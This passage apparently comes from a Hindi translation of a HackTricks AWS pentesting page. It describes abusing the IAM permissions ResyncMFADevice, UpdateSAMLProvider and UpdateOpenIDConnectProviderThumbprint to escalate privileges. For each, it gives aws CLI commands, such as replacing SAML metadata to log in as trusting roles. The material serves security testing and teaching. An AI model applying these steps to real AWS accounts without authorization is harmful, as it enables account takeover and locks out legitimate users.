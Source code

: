 `iam:ResyncMFADevice` के साथ एक हमलावर एक निर्दिष्ट एमएफए उपकरण को आईएएम सत्ता के साथ समकालीन कर सकता है: उपयोगकर्ता या भूमिका ([अधिक जानें](https://docs.aws.amazon.com/IAM/latest/APIReference/API\_ResyncMFADevice.html))।
```bash
aws iam resync-mfa-device --user-name <value> --serial-number <value> \
--authentication-code1 <value> --authentication-code2 <value>
```
**पोटेंशियल प्रभाव:** यदि आप पहले से ही उपयोगकर्ता का उपयोगकर्ता नाम और पासवर्ड जानते हैं, तो एक MFA उपकरण जोड़कर उपयोगकर्ता को अप्रत्यक्ष रूप से उन्नत कर सकते हैं।

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

इन अनुमतियों के साथ आप **SAML कनेक्शन के XML मेटाडेटा को बदल सकते हैं**। फिर, आप **SAML संघ** का दुरुपयोग करके किसी भी **भूमिका में लॉगिन** कर सकते हैं जो इसे विश्वसनीय मानती है।

ध्यान दें कि इसे करने पर **वैध उपयोगकर्ता लॉगिन नहीं कर पाएंगे**। हालांकि, आप XML प्राप्त कर सकते हैं, इसलिए आप अपना XML डाल सकते हैं, लॉगिन कर सकते हैं और पिछला कॉन्फ़िगर कर सकते हैं।
```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```
{% hint style="info" %}
करने के लिए: एक टूल जो एक निर्दिष्ट भूमिका के साथ SAML मेटाडेटा और लॉगिन उत्पन्न करने की क्षमता रखता है
{% endhint %}

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(अनिश्चित है) यदि किसी हमलावर के पास ये **अनुमतियाँ** होती हैं तो वह एक नया **थंबप्रिंट** जोड़ सकता है और सभी भूमिकाओं में लॉगिन करने के लिए प्रदाता पर भरोसा करते हैं।

{% code overflow="wrap" %}
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
{% endcode %}

<details><summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary></details>
